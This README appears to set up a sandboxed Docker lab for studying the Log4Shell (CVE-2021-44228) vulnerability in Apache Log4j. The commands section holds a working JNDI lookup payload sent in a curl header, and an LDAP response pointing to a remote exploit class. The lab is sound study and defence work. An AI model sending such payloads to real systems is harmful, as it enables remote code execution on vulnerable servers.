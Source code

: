 # Apache Log4j CVE-2021-44228

## 0verview

AKA: *Log4Shell*

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Caused and categorised by "Improper Input Validation"

Apache Log4j library [download](https://archive.apache.org/dist/logging/log4j/)

Vulnerable version: [apache-log4j-2.14.1](https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip)

Fixed version: [apache-log4j-2.15.0](https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip)

Tutorial: [https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/)

## Objectives

1. Analyse Java execution flow within vulnerable application code and log4j library
1. Analyse Network traffic associated with relevant nodes (Application & LDAP Server)
1. Analyse LDAP exploit server and determine how exploit is deployed/architected

## Methodology

### Lab implementation

Docker will be used to provide a sand-boxed environment consisting of the following nodes:

- Vulnerable Application
- LDAP exploit server
- Wireshark instance (optional)
- Docker network

Docker Compose will be used to aid operation and testing.

Wireshark can either be run as a Docker instance (Linux Server Wireshark) or `tcpdump` can be utilised to capture packets and produce a pcap file for later analysis in Wireshark.

__Vulnerable Application__

For stepping through the code create a basic Java application using `log4j` for logging.

Use VSCode with remoting feature to connect to the running Container and perform runtime debugging.

__LDAP Server exploit__

Use Dockerised LDAP exploit server from [Cygenta - how to build your own demo](https://www.cygenta.co.uk/post/your-own-log4shell-demo).

__Wireshark__

Use a variation of Docker configuration found here: [https://docs.linuxserver.io/images/docker-wireshark](https://docs.linuxserver.io/images/docker-wireshark)

__Commands__

```shell
# start all services
$> docker compose up

# stop all services
$> docker compose down

# clean up all Docker artifacts (including stop all services)
$> ./scripts/cleanup.sh

# test the Docker services and network
$> ./scripts/test.sh

# test if exploit has been successful
$> docker compose exec vulnapp ls -l /tmp

# run interactive shell on tools image container
$> docker run --name tools --network example_log4j -it --privileged tools

# inside tools container
$> curl vulnapp:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'

# install tcpdump on service container (Alpine)
$> docker compose exec <srvcname> apk add tcpdump

# extract log from contanier
$> docker compose cp <srvcname>:/tmp/dump.log .

# get interactive shell on srvc container
$> docker compose exec <srvcname> sh

# run tcpdump in container
$> tcpdump -i eth0 -w /tmp/dump.cap &

# ldap search
$> ldapsearch -p 1389 -h log4jldapserver -x -b "Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw=="
```

```shell
# ldap search response

# extended LDIF
#
# LDAPv3
# base <Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn: Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==
javaClassName: foo
javaCodeBase: http://log4jldapserver:8888/
objectClass: javaNamingReference
javaFactory: ExploitzhlIBZLvCq

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

## Notes

### Log4j Lookup Feature

[Apache log4j lookups docs](https://logging.apache.org/log4j/2.x/manual/lookups.html)

### Troubleshooting

- Keep getting Error in VSCode: Java server has crashed 5 times in the last 3 minutes
> Solution: F1 -> Java: Clean the Java Language Server Workspace -> Restart & Delete

## Debugging notes

PatternLayout.toSerializable
ln: 344
iteration 8 goes bang!!!

